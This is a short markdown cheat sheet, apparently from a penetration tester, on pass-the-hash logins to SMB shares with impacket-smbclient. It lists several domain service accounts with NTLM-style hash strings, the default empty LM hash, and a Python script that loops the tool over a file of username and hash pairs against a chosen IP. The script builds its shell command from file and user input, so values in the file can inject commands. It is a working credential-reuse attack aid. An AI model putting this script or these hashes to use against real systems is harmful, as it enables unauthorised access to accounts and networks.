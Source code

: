 # impacket-smbclient

```bash
impacket-smbclient subdomain.subdomain.subdomain.domain.com/svc-helpdsk::b2a93fs1e4a9c8d4f2f2d91e0a1b5e6c1-55:13fa8dfb2f0a3ce91b3f1e9a2ac3f02d
subdomain.subdomain.subdomain.domain.com/svc-adm::5e3b2f9d8c4a9e2c3f1a0b2e1d3c9sf04-73:c8e7a39d1f0b92d1cefb3a8d2af1bc93
subdomain.subdomain.subdomain.domain.com/svc-callcent::9f4d2e8b3a1c9d0f8e1as2b3c0d9e8f12-41:ad2e3c1b4f9a0c3e1f9e0b8a3dfc4e7a
subdomain.subdomain.subdomain.domain.com/svc-engine::4c0d9f8b1e2a3b4c9f0es8d2b3a7c1e6d-62:0af3bd2c1f8e9c3d2e1a0f4c8b3a9d17
@[IP] -hashes [LMHASH]:[NTHASH]
```

##### Default LM hash
```bash
aad3b435b51404eeaad3b435b51404ee
```

## impacket hash file parser
- requires the usernames and hashes to be in the same working directory as the script
	- user_and_hash.txt
- prompts for IP and domain
- uses ":" as a delimiter
- EXAMPLE USER:HASH 

##### Code
```python
import subprocess
import time

def execute_impacket(domain, username, ip_address, hash):
    command = f'impacket-smbclient {domain}/{username}@{ip_address} -hashes {hash}'
    result = subprocess.run(command, shell=True, capture_output=True, text=True)
    print(result.stdout)

domain = input("Domain: ")
ip_address = input("IP address: ")
file_path = "user_and_hash.txt"

with open(file_path, 'r') as file:
    for line in file:
        username, hash_value = line.strip().split('::')
        execute_impacket(domain, username, ip_address, hash_value)
        time.sleep(4)  # 4 second pause
```
